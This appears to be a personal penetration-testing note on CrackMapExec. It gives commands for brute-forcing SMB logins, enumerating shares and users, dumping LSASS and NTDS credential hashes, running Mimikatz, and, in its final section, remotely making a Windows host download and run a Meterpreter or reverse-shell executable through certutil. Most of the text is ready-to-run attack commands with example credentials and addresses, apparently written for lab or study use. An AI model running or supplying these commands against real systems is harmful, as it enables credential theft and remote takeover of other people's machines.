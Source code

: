 CrackMapExec

crackmapexec help: https://en.hackndo.com/remote-lsass-dump-passwords/

> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@55w0rd!' -M lsassy

https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec/

# Network Enumeration

# Protocols

SMB, SSH, mssql, ldap, winrm

# SMB

## Bruteforce usernames and passwords against SMB

> crackmapexec smb &lt;IP&gt; -u &lt;usernamefile&gt; -p &lt;passwordfile&gt;

![0ef478452fcf630079a336e26bf0101b.png](:/1502174a0f18498d934cf6c67323155a)

Pwn3d only prints out if the user is a domain admin;

- Can use psexec or smbexec to get shell

--continue-on-success : continues to test users and passwords after getting a successful hit on one

## Enumerate Shares

> crackmapexec smb &lt;IP&gt; -u '&lt;username&gt;' -p '&lt;password&gt;' --shares

![bd6b1ca32bc7989e2f0dcf3968fbc8c9.png](:/36b4d86d6b5940b88eb393da74a1e75d)

## Other enumerations

- --disks : enumerate disks
- --users: enumerate usernames
    - Must specify the domain controller IP; cannot use a different server
    - ![0eb03ea88d9458febe05546f4c208c88.png](:/20c24ad425d44eccb64323d969aecf00)
- --sessions : active logon sessions
- --groups : enumerate groups
    - ![50af41d7f3daf7fc87203dbef36e9881.png](:/f068bc8a86de4db495f8e5a87282623e)
- asd

## See Password Policy

use --pass-pol

See the password policy of the user

![722fff211d2b6003e15cf56a19a21a84.png](:/08826853a5344c57aea0ad0248c0e940)

# Active Directory

## Credential gathering

Methods to obtain hashes

![2d463aba0948baf828984cc1ba691755.png](:/a095bfd81d244f74b0fe0a7f783908e8)

drsuAPI is the default for --ntds; vss = shadow copy

NTDS hashes

![c41ada05843cc4565c479f0c7242930d.png](:/2c7bac5e138c450b8db40f50d42102da)

## Using Module

To list modules, use the -L flag

![f6f4c616f15fe2665f558dbab6ce7155.png](:/93757132520546ee9969dfdca2d61d52)

For help, use the flag --options

### Mimikatz

![56ae3ef3aa4856ddf3f44aa34636febc.png](:/8660d4639f51467fa3682e9fe0decc28)

Make sure to state -u and -p for it to work

Example

crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@55w0rd!' -M mimikatz -o COMMAND='privilege::debug'

![dfd3e2d45f9f38dbdec420c4b2599ef5.png](:/fb76d027d7194f6bad7ac6108333d1f6)

# Execute System Command (To get Reverse Shell)

![a7672b06a15243b1861a3e34750b3da2.png](:/1ed264f0296c44348176e9a7071b686d)

E.g. we have a payload and have opened a web server, and we have setup a multi/handler to get the reverse shell

> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@wsw0rd1' -x 'certutil -urlcache -f http://192.168.1.2:8088/meterpreter_shell.exe meterpreter\_shell.exe && cmd /c meterpreter\_shell.exe'
> 
> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@wsw0rd1' -x 'certutil -urlcache -f http://192.168.119.168:5001/rshell.exe rshell.exe && cmd /c rshell.exe'
> 
> \# Tried powershell reverse shell but it doesn't work

![0b7da67312474b101094faa914a94067.png](:/df955198c3f448028aa960aa6bc61bae)

id: 675162c6268c4652933f50981ec28893
parent_id: c900bb1263d649dd801144a9657e4075
created_time: 2022-02-03T02:58:35.296Z
updated_time: 2022-04-22T05:37:51.111Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-02-03T02:58:35.296Z
user_updated_time: 2022-04-22T05:37:51.111Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
